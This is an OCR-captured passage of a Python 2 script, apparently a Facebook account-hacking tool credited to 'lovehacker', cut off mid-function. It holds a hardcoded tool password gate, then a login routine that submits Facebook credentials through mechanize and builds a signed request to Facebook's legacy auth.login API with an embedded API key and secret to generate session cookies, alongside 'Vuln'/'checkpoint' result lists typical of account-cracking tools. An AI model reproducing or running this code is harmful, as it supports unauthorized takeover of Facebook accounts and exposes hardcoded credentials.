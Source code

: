 cekpoint = []
oks = []
id = []
listgrup = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
os.system("clear")
print "\033[1;96m ========================================="
print  """\033[1;91m=======================================
\033[1;96mAuthor  \033[1;93m: \033[1;92mlove
\033[1;96mYouTube \033[1;93m: \033[1;92mlovehacker
\033[1;96mGitHub  \033[1;93m: \033[1;92mhttps://github.com/lovehacker/love
\033[1;96mpage \033[1;93m: \033[1;92mhttps://www.facebook.com/lovehacker
\033[1;91m======================================="""
print " \x1b[1;93m============================================================="
CorrectUsername = "jokarabir"
CorrectPassword = "01310230537"
loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;96m \x1b[1;93mUsername Of Tool \x1b[1;96m>>>> ")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;96m \x1b[1;93mPassword Of Tool \x1b[1;96m>>>> ")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username
            loop = 'false'
        else:
            print "Wrong Password"
            os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
    else:
        print "Wrong Username"
        os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		print('\033[1;96m\x1b[1;93mLOGIN WITH FACEBOOK \x1b[1;96m' )
		id = raw_input('\033[1;96m \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m')
		pwd = raw_input('\033[1;96m \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;96m \x1b[1;91mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")